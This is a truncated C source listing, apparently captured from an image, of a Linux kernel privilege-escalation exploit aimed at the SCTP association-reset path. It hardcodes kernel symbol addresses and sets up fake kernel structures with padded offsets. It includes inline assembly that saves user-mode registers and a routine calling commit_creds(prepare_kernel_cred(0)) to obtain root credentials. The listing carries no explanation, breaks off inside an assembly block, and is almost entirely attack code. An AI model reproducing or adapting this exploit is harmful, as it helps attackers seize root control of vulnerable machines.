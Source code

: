 ```c
#define _GNU_SOURE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <arpa/inet.h>
#include <pthread.h>
#include <error.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/sctp.h>
#include <netinet/in.h>
#include <time.h> 
#include <malloc.h>
#include <sys/mman.h>
#include <err.h>
#include <signal.h>

#define SERVER_PORT 6666

#define SCTP_GET_ASSOC_ID_LIST	29
#define SCTP_RESET_ASSOC	120
#define SCTP_ENABLE_RESET_ASSOC_REQ	0x02
#define SCTP_ENABLE_STREAM_RESET	118

unsigned int user_cs, user_ss, user_rflags, user_sp;

#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1074a20;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1074670;

struct sock{
	char padding1[0x24];
	void *net;
	char padding2[0x278];
	int type;
};


struct sctp_association{
	char padding1[0x18];
	struct sock *sk;
	char padding2[0x190];
	int state;
};


void save_status()
{
    asm("mov %cs, user_cs;"
            "mov %ss, user_ss;"
            "mov %esp, user_sp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

void get(){

    commit_creds(prepare_kernel_cred(0));
	asm(
```